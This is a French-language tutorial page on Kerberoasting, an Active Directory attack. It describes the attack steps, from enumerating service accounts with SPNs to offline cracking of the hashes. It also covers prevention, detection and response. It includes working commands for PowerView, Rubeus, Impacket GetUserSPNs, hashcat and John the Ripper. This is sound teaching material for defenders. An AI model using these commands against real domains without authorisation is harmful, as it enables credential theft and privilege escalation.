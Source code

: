 ```yaml
---
title: Kerberoasting
date: "2025-07-14"
draft: false
---
```


# 🔥 Kerberoasting

## Qu'est-ce que le Kerberoasting ?

Le **Kerberoasting** est une technique d'attaque Active Directory qui consiste à demander des tickets de service Kerberos (TGS) pour des comptes de service, puis à tenter de casser le hash du mot de passe hors-ligne. Cette attaque permet à un attaquant ayant un accès authentifié au domaine d'obtenir des mots de passe de comptes à privilèges.

## 🎯 Objectif de l'attaque

L'objectif principal est d'extraire des hashes de mots de passe de comptes de service (Service Accounts) qui utilisent souvent des mots de passe faibles ou réutilisés, permettant ainsi une élévation de privilèges dans l'environnement Active Directory.

## 📋 Étapes de l'attaque

### 1. Énumération des comptes de service

Identifier les comptes de service disposant d'un SPN (Service Principal Name) :

```powershell
# Avec PowerView
Get-NetUser -SPN | Select-Object samaccountname,serviceprincipalname

# Avec AD Module
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

### 2. Demande de tickets TGS

Demander des tickets Kerberos pour les comptes de service identifiés :

```powershell
# Avec Rubeus
Rubeus.exe kerberoast /user:serviceaccount /outfile:hashes.txt

# Avec Impacket
python3 GetUserSPNs.py -request domain.local/user:password
```

### 3. Extraction des hashes

Extraire les hashes des tickets obtenus pour analyse hors-ligne.

### 4. Craquage des hashes

Utiliser des outils comme Hashcat ou John the Ripper pour casser les mots de passe :

```bash
# Avec Hashcat
hashcat -m 13100 -a 0 hash.txt wordlist.txt

# Avec John the Ripper
john --wordlist=wordlist.txt hash.txt
```

## 🛡️ Contre-mesures

### Prévention

- **Mots de passe forts** : Utiliser des mots de passe complexes et uniques pour tous les comptes de service
- **Rotation régulière** : Implémenter une politique de rotation des mots de passe
- **Principe du moindre privilège** : Limiter les droits des comptes de service au strict nécessaire
- **Groupes de sécurité** : Utiliser des groupes dédiés pour les comptes de service

### Détection

- **Surveillance des requêtes TGS** : Monitorer les demandes de tickets inhabituelles
- **Logs d'audit** : Activer l'audit détaillé des événements Kerberos
- **Alertes SIEM** : Configurer des alertes pour les patterns suspects
- **Analyse comportementale** : Détecter les activités anormales des comptes de service

### Réponse

- **Isolation immédiate** : Isoler les comptes compromis
- **Changement de mots de passe** : Forcer le changement de tous les mots de passe concernés
- **Analyse forensique** : Investiguer l'étendue de la compromission
- **Documentation** : Documenter l'incident et les leçons apprises

## 🔧 Outils populaires

| Outil               | Description                             | Plateforme       |
| ------------------- | --------------------------------------- | ---------------- |
| **Rubeus**          | Outil C# pour l'exploitation Kerberos   | Windows          |
| **Impacket**        | Collection d'outils Python              | Multi-plateforme |
| **PowerView**       | Module PowerShell pour l'énumération AD | Windows          |
| **Hashcat**         | Craqueur de hashes haute performance    | Multi-plateforme |
| **John the Ripper** | Craqueur de mots de passe classique     | Multi-plateforme |

## 📚 Ressources supplémentaires

- [Guide complet sur HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoasting)
- [Documentation Microsoft sur Kerberos](https://docs.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
- [OWASP Active Directory Security](https://owasp.org/www-project-active-directory-security/)

---

_Dernière mise à jour : 14 juillet 2025_
